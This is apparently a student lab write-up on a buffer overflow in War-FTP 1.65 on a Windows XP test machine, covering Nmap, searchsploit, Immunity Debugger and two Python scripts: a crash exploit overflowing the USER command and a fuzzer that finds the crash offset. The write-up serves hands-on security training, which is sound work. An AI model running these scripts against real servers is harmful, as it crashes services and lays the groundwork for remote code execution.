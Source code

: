 # Lab Machine Write up and Notes 

## Resources: 

Original Exploit: https://www.exploit-db.com/exploits/3570


### Nmap of the XP Machine

<img src="/images/nmap-xp-machine-tcp.png" >

A quick Nmap scan of the target machines reveals TCP port 21 open. I also outputted to all formats 
so I can import it into searchsploit to see if it catches some stuff. 

###  SearchSploit Results

I imported the Nmap scan like so: 

``
searchsploit --nmap xp-machine-tcp.xml 
``

But output was too verbose so I did not put it here and instead re-ran the command manually 

<img src="/images/searchsploit-1.png" >


###  Metasploit Console Exploit

<img src="/images/msfconsole.png" >

As you can see, the exploit did not work ( This is because it just crashed the application so, we are going to remake this manually )


### I Attached The Program to Immunity Debugger 

<img src="/images/immunity-ftp.png" width=812px height=474px>


### Vulnerability Discovery Inside The Application 

## Manual 

#### Python One Liner To Find Crashing Point Manually

This prints 1,000 As for ease of access 

<img src="/images/python-oneliner.png">

#### In the case of trying this directly through a FTP Client on a modern Distrobution the Client will stop you from sending the max buffer 

<img src="/images/failed-exploit.png">

#### So we are going to try with NetCat and See if that works better 

<img src="/images/crash-succeeded.png">

#### As you can see we crashed the program ( I did have to enter a pass before it crashed ) and to confirm the crash opened our debugger 

<img src="/images/immunity-crash.png" width=812px height=474px>

#### YAAAY we have control over the EIP and have written over it with our A's 

<img src="/images/immunity-EIP.png">

#### I have created an Exploit that will crash the server! 

This is a skeleton exploit we will add on more stuff as we find it

```python3
#!/usr/bin/python3

## War-FTP 1.65 Exploit

import socket
from urllib import response 

# define the variables to be sent to the server
ip = '192.168.164.170'
port = 21
buffer = b"A" * 1000
payload = ""

# create the socket to connect to the server
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((ip, port))
# because there is a banner we wanna print it out 
response = s.recv(1024)
print(response)

# sending the exploit 
s.send(b"USER " + buffer + b"\r\n")
response = s.recv(1024)
print(response)

# because you have to enter the pass as well 
s.send(b"PASS parrot\r\n")
s.close()
```

## Automation 

#### We need to find the exact crash point so we make a fuzzing script to narrow it down after manual or automate it from the begining 


```python3
#!/usr/bin/python3

import socket
from time import sleep 

buffer = b"B" * 10
x = 0

while True: 
    buff = (b"A" * x ) + buffer
    print("Fuzzing " + str(len(buff)))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect = s.connect(('192.168.164.170', 21))
    resp = s.recv(1024)
    print(resp)

    s.send(b"USER " + buff + b"\r\n")
    resp = s.recv(1024)

    s.send(b"PASS PARROTASSASSIN15\r\n")

    s.close
    x = x + 100
    sleep(2)
```

#### We find that it crashes at 510 as the server no longer responds after 

<img src="/images/python3-crash.png">
